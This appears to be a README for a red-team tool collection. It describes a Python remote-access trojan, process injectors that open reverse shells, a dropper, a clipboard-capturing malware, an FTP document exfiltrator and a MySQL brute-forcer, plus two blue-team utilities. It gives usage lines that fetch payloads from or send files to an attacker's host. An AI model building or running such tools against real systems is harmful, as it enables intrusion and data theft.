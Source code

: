 # RedTeamPets
A collection of handy and specific tools for the Red Teamer

PLEASE USE WISELY AND FOR RESEARCH PURPOSES ONLY. I AM NOT RESPONSIBLE FOR ANY MALICIOUS ACTIONS PERFORMED BY USING MY CODES MALICIOUSLY AS IT'S ORIGINAL FORM OR MODIFIED.

__________________________________________________________________________________________________________________________________________________________________


ConvinientRAT:

An Interactive CLI RAT made with Python, that has basic features such as:
Exfiltration,
Persistence,
Privilage Esclation,
Standard Shell,
Nishang Shell,
Credential Dumping,
Mimikatz,
Information gathering,
Downloader

Usage: Start the Server, Launch the client from victim on the same IP and PORT of the server. Rest, A help menu is available on the server itself. Feature updates may continue in the future.


R3dJ0hn:

A C program to inject Single-Stage shellcode into the memory of another running process. It first scans through all the running processes and matches a set of pre-mentioned process names. It tries to acquire an handle to each of them and stops it it gets it.
Then injects a custom shellcode into the memory, thus giving a reverse shell back to the adversary and later on adds registry startup key for persistence. Long sleep timer induced to induce confusion of the blue teamer over the other side.
The project needs to be built each time for each purpose.


Split Drop in Mem:

Another process injector but made with Python that has a dropper built within. The Host.py needs to be run with a 64 bit Single-Stage reverse shell.exe. Example: python host.py reverse_sh.exe. This exe file will be converted to shellcode via Donut and then then encrypted and hosted over HTTP.
Once, the dropper is launched from the victim PC (python drop.py IP:PORT), the encrypted file, KEY and IV will be downloaded. Then the shellcode will be decrypted and injected into python's own memory, thus giving a remote shell back to the adversary.


WinProcInjDLL:

Another process injector made with C, but this time a DLL will be injected instead of a shellcode. The DLL can be made by say MSFVenom.
The DLL has to be hosted via HTTP as payload.dll (Static Naming Convention), and then the C program to be compiled and launched in the victim PC as filename.exe http://IP:PORT/payload.dll. The DLL will be downloaded and injected into Notepad (Can be changed before compilation), Thus giving a reverse shell back to the adversary.


BruteMysql:

A simple wordlist based MySQL Bruteforce program in python. Nothing fancy.


ClipWatch:

A python malware that is programmed to launch from Admin. Creates Persistence via Registry and Scheduled tasks.
It runs periodically and watches the clipboard for data. As it captures the data, it collects it and writes to a file in the same directory. This file could be later exfiltrated. In the future, a Call back home feature could be implemented to upload the data directly onto a server.


Dump VirusShare:

(Blue Team): If one has a special access to VirusShare then this app can't help but if not, This tool will crawl the whole hash directory of VirusShare.com and write a CSV file with all the hashes possible. This will be benefical to Blue teamers often. Though the process is time consuming, but still 100 times faster than the manual approach.


Invoke-Adversary 2022:

Nothing original but Invoke-Adversary already exists in GitHub that is quite used by security companies to demonstrate red team simulation to the clients. Only problem is the original is old and runs on commands and cmdlets from old powershell versions. I have just morphed it to be used with the current powershell version of 2022.


Xfiltrator:

An exfiltration malware made with Python that connects back to an FTP server created by the adversary and it eventually downloads all document based files present within the victim PC. 
Usage: python xfiltrator.py FTP_IP FTP_Username FTP_password


bofhelper:

Another Python based tool that basically helps to find the IP offset during a Buffer Overflow simulation. I have made this for myself once when I was learning to BOF. Best thing about it is you don't have to memorize commands. The whole thing is made interactive.


Eyeris:

(Blue Team): A Python based tool that when provided a PID of an administrative CMD, acts as a task manager but only for that one process.
This is benificial for understanding process flow of malwares so that a pattern can be extracted and an EDR custom query could be built for obvious reasons. This feature is by default present in EDRs but ofcourse personally no one has red team simulation access for research purposes except people working in the EDR company. Anyways
Usage:
Provide a PID from a CMD.
Run a sample malware from the same CMD.
Quit the CMD once it's activities are over.
This program will generate a Tree-Node structure JSON, that can be analyzed and referenced for building the custom EDR queries.
